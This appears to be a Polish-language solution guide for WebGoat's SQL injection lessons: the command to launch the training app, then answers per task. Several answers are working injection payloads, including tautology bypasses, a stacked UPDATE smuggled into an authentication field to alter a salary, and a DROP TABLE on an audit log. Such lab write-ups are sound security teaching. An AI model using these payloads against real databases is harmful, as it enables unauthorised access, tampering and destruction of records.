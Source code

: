 ```
java -Dfile.encoding=UTF-8 -Dwebgoat.port=8080 -Dwebwolf.port=9090 -jar webgoat-server-8.2.2.jar
```

W przeglądarce otworzyć: `127.0.0.1:8080/WebGoat`

* Introduction:

    * Task 2:
    ``` 
    SELECT department FROM Employees WHERE first_name = 'Bob' AND last_name= 'Franco';
    ```

    * Task 3:
    ```
    UPDATE Employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
    ```

    * Task 4:
    ```
    ALTER TABLE employees ADD phone VARCHAR(20);
    ```

    * Task 5:
    ```
    GRANT ALL PRIVILEGES ON grant_rights TO unauthorized_user;
    ```

    * Task 9:
    ```
    SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1';
    ```

    * Task 10:
    ```
    SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1 = 1;
    ```

    * Task 11:
    ```
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '3SL99A' or '1' = '1';
    ```

    * Task 12:
    ```
    Employee name: Smith
    Authentication TAN: 3SL99A'; UPDATE employees SET salary=90000 WHERE first_name='John' AND last_name='Smith' AND auth_tan='3SL99A
    ```

    * Task 13:
    ```
    SELECT * FROM employees WHERE last_name = "Smith" AND auth_tan = "3SL99A'; DROP TABLE access_log;--
    ```

<br />
